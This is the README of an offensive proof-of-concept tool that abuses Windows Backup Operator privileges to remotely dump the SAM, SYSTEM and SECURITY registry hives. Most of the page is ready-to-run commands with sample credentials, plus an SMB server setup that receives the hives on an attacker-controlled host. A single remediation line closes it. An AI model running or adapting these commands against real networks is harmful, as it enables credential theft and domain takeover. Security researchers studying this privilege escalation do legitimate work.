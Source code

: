 # Backup Operator Registry Backup to Domain Compromise
A simple POC that abuses Backup Operator privileges to remote dump SAM, SYSTEM, and SECURITY hives.

Research credit to:
- [@filip_dragovic](https://twitter.com/filip_dragovic)
- Ported from [@mpgn](https://twitter.com/mpgn_x64) Windows [PoC](https://github.com/mpgn/BackupOperatorToDA)

## Usage
This proof of concept is a modified version of impacket/examples/reg.py and will work with the most recent impacket release installed. All supported impacket authentication mechanisms will work.

```
root@kali:~# python3 reg.py jsmith:'Spring2021'@10.0.229.1 backup -p '\\10.0.220.51\share'
Impacket v0.9.25.dev1+20220208.122405.769c3196 - Copyright 2021 SecureAuth Corporation

Dumping SAM hive to \\10.0.220.51\share\SAM
Dumping SYSTEM hive to \\10.0.220.51\share\SYSTEM
Dumping SECURITY hive to \\10.0.220.51\share\SECURITY
```

![Proof](backup_dc_hive.png)

## Install
To prevent the reg.py file from impacket being overwritten with a new reg.py file, you can save it with another name
```
wget https://raw.githubusercontent.com/zief/backup_dc_registry/main/reg.py -O regi.py
```

## Individual backup
Fire up your smbserver to receive backup file.
```
smbserver.py -smb2support myshare .
```

```
python regi.py zief:'Ayeaye2023!'@192.168.212.16 backupsam -p '\\192.168.210.12\myshare'
python regi.py zief:'Ayeaye2023!'@192.168.212.16 backupsystem -p '\\192.168.210.12\myshare'
python regi.py zief:'Ayeaye2023!'@192.168.212.16 backupsecurity -p '\\192.168.210.12\myshare'
```


## Remediation:
Treat `Backup Operators` domain group as Domain Adminstrators and other Tier 0 resources 
